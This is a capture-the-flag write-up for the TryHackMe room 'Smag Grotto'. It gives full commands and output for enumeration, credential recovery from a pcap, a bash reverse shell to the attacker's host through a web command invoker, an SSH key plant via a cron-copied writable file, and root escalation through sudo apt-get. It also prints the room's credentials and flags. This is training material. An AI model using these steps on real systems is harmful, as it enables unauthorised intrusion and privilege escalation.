



| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [Smag Grotto](https://tryhackme.com/room/smaggrotto) |  
| 🏷 **Type**       | THM Challenge                                        |
| 🖥 **OS**         | Linux                                                |
| 🎯 **Difficulty** | Easy                                                 |
| 📁 **Tags**       | .pcap, Wireshark, authorized_keys, sudo apt-get      |

## Task 1: Smag Grotto

### What is the user flag?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-28 06:20 +0100
Nmap scan report for 10.81.144.209
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.39 seconds
```

#### Enumerate web server
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ feroxbuster --url http://$TARGET -w /usr/share/wordlists/dirb/big.txt -x php,html,js,png,jpg,py,txt,log -C 404
<SNIP>
200      GET       13l     3455w   141841c http://10.81.144.209/materialize.min.css
200      GET       12l       39w      402c http://10.81.144.209/
200      GET       12l       39w      402c http://10.81.144.209/index.php
301      GET        9l       28w      313c http://10.81.144.209/mail => http://10.81.144.209/mail/
200      GET       34l       64w     1596c http://10.81.144.209/aW1wb3J0YW50/dHJhY2Uy.pcap
200      GET       61l      250w     2386c http://10.81.144.209/mail/index.php
[####################] - 4m    368550/368550  0s      found:6       errors:0      
[####################] - 3m    184221/184221  1176/s  http://10.81.144.209/ 
[####################] - 3m    184221/184221  1203/s  http://10.81.144.209/mail/ 
[####################] - 0s    184221/184221  4284209/s http://10.81.144.209/aW1wb3J0YW50/ => Directory listing (add --scan-dir-listings to scan)
```

#### Download discovered .pcap file
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ wget -q http://10.81.144.209/aW1wb3J0YW50/dHJhY2Uy.pcap
```

#### Analyze downloaded .pcap file with `Wireshark`


Intercepted HTTP transmission revels `helpdesk:cH4nG3M3_n0w` credentials for `http://development.smag.thm/login.php`

#### Add `smag.thm` and `development.smag.thm`
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ echo "$TARGET development.smag.thm smag.thm" | sudo tee -a /etc/hosts
10.81.144.209 development.smag.thm smag.thm
```

#### Log in to `development.smag.thm`

After successful login we have gained access to some kind of command invoker.

#### Test command execution


Using `wget` we were able to prove that command was executed.
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ nc -lp 80
GET / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 192.168.130.56
Connection: Keep-Alive
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ nc -vlp 4444
listening on [any] 4444 ...
```

#### Spawn reverse shell connection using web command invoker
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ CMD=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" | jq -sRr @uri)
curl -c cookies.txt http://development.smag.thm/login.php -d 'username=helpdesk&password=cH4nG3M3_n0w&login=' && \
curl -b cookies.txt http://development.smag.thm/admin.php -d "command=$CMD&submit="
```

#### Confirm foothold gained
```
connect to [192.168.130.56] from development.smag.thm [10.81.144.209] 45266
bash: cannot set terminal process group (713): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Discover `crontab` entry which overwrites `/home/jake/.ssh/authorized_keys` with `/opt/.backups/jake_id_rsa.pub.backup`
```
www-data@smag:/$ cat /etc/crontab
<SNIP>
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
<SNIP>
```

#### Check write permission to `/opt/.backups/jake_id_rsa.pub.backup`
```
www-data@smag:/$ ls -l /opt/.backups/jake_id_rsa.pub.backup && lsattr /opt/.backups/jake_id_rsa.pub.backup                       
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
-------------e-- /opt/.backups/jake_id_rsa.pub.backup
```
Since we can write to this file we could effectively add our SSH public key to `/home/jake/.ssh/authorized_keys`.

#### Generate SSH private key on attacker machine
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ ssh-keygen -q -t rsa -b 4096 -f jake_id_rsa -N "" -C "$RANDOM@$RANDOM.net" && cat jake_id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDCN20Au6py3ZYYfXgxOQJxVsG2QzOGqvawgBCWMxWOiReFafLDSOc52mNJQlDrTtIJKdFx+YnFjNof1OQSpvA8wBGYEGRA73svhyvWBqc8Mto2xwzeLzEuKneTj7kPHqCIZNcqIEhh/l8I8+x5qT+/IrKs727lURQnHDpYtEFneuOWVCd6OK8FMzaZKsda0J5BZWK4CCGGb3ekAeeG5wtyUExkm35EtmTN1vx0/FW31ro+5ZTwduoBfG/D2gPoaMzh2Rfgf1MoPqDSMxcjTGhjlfz8w46g+ngBpak4IJe9ewHx/V7QZ+P5N3Dy3bRZ3Ea1wHtY1DVccdGCyzovsLsIzD6sh7oHNi4EsSIvj/bmQjU6S1t82yf0GiH9IU9g4QLAN36wygIm+rJCGeZ272FWWr5OhZUgrHLmzwFxPqLJf/S0aUAfgkwYHR6B0asvBDzrmnqdzXIwGkNOFYnx7Mh+tfthfmGqC53WSApcE4MAl+BSVABGsVbpLFGSoi55m2FxFzQ7NMefYy7/ZqzWoGtuaA2ki9zhK0frmRKEt9WrQOtf6KgTQRVbvhlWbKlOQBwz7bjC6rmKY+OPYNH3U1AoxQWXOFVMZkShxbRqkgPNnWIA+pQiTNuonOmEsHUH8TJb7zQnCa9YNdVU0ooBs1bRZVfTRIlXe5oc4Ohl9cQ/Kw== 11823@19138.net
```

#### Overwrite `/opt/.backups/jake_id_rsa.pub.backup` with attacker SSH public key
```
www-data@smag:/$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDCN20Au6py3ZYYfXgxOQJxVsG2QzOGqvawgBCWMxWOiReFafLDSOc52mNJQlDrTtIJKdFx+YnFjNof1OQSpvA8wBGYEGRA73svhyvWBqc8Mto2xwzeLzEuKneTj7kPHqCIZNcqIEhh/l8I8+x5qT+/IrKs727lURQnHDpYtEFneuOWVCd6OK8FMzaZKsda0J5BZWK4CCGGb3ekAeeG5wtyUExkm35EtmTN1vx0/FW31ro+5ZTwduoBfG/D2gPoaMzh2Rfgf1MoPqDSMxcjTGhjlfz8w46g+ngBpak4IJe9ewHx/V7QZ+P5N3Dy3bRZ3Ea1wHtY1DVccdGCyzovsLsIzD6sh7oHNi4EsSIvj/bmQjU6S1t82yf0GiH9IU9g4QLAN36wygIm+rJCGeZ272FWWr5OhZUgrHLmzwFxPqLJf/S0aUAfgkwYHR6B0asvBDzrmnqdzXIwGkNOFYnx7Mh+tfthfmGqC53WSApcE4MAl+BSVABGsVbpLFGSoi55m2FxFzQ7NMefYy7/ZqzWoGtuaA2ki9zhK0frmRKEt9WrQOtf6KgTQRVbvhlWbKlOQBwz7bjC6rmKY+OPYNH3U1AoxQWXOFVMZkShxbRqkgPNnWIA+pQiTNuonOmEsHUH8TJb7zQnCa9YNdVU0ooBs1bRZVfTRIlXe5oc4Ohl9cQ/Kw== 11823@19138.net' > /opt/.backups/jake_id_rsa.pub.backup
```

#### Use generate SSH private key to access target as user `jake`
```
┌──(magicrc㉿perun)-[~/attack/THM Smag Grotto]
└─$ ssh -i jake_id_rsa jake@$TARGET
<SNIP>
jake@smag:~$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1001(netadmin)
```

#### Capture user flag
```
jake@smag:~$ cat /home/jake/user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

### What is the root flag?

#### List allowed `sudo` commands
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

#### Escalate to `root` user using `sudo apt-get update`
```
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Capture root flag
```
# cat /root/root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```
